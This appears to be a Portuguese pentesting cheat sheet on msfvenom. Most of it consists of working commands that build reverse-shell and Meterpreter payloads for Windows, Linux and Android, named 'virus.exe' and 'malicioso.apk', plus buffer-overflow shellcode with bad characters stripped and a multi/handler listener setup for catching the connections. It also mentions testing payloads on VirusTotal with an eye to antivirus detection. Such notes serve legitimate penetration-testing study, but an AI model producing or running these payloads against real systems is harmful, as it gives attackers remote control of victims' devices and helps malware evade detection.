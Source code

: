 # MSFVENOM

O **msfvenom** é utilizado para criação de exploit.  
Teste os seus payloads através do site https://www.virustotal.com.  
*Cuidado pois ao enviar para o vírus total, a heurística pode ser atualizada nos antivírus.*

Verificar todos os payloads:

```bash
msfvenom --list payloads
```

Gerando payload para Windows:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=443 -f exe > virus.exe
```

Para receber a conexão do alvo será necessário que o msf esteja em execução:

```bash
msfconsole
```

```msf
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 443
msf exploit(handler) > set LHOST 192.168.0.100
msf exploit(handler) > exploit*
```

Criando um exploit para Windows para BoF:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.100 LPORT=443 -b "\x00\x0a\x0d\x20" EXITFUNC=thread -f python
```

**-p windows/shell_reverser_tcp** ==> Tipo do exploit.  
**LHOST** ==> IP de conexão reversa.  
**LPORT** ==> Porta de conexão reversa.  
**-b "\x00\x0a\x0d\x20"** ==> Bad caracteres ou caracteres inválidos.  
**-f python** ==> Linguagem que vai ser gerado o exploit.  
**EXITFUNC=thread** ==> Evita que a aplicação morra depois do exploit ser fechado.

Gerando payload binário para sistema Linux:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp lport=433 lhost=192.168.0.111 -f elf > malicioso
```

*Utilizado quando você já tem uma shell no device e necessita usar o meterpreter para auxiliar na pós exploração.*

Gerando payload APK para Android:

```bash
msfvenom -p android/meterpreter/reverse_tcp lport=433 lhost=192.168.0.111 R > malicioso.apk
```

**R** ==> Salva em modo RAW.

*Utilizado quando você já tem uma shell no device e necessita usar o meterpreter para auxiliar na pós exploração.*
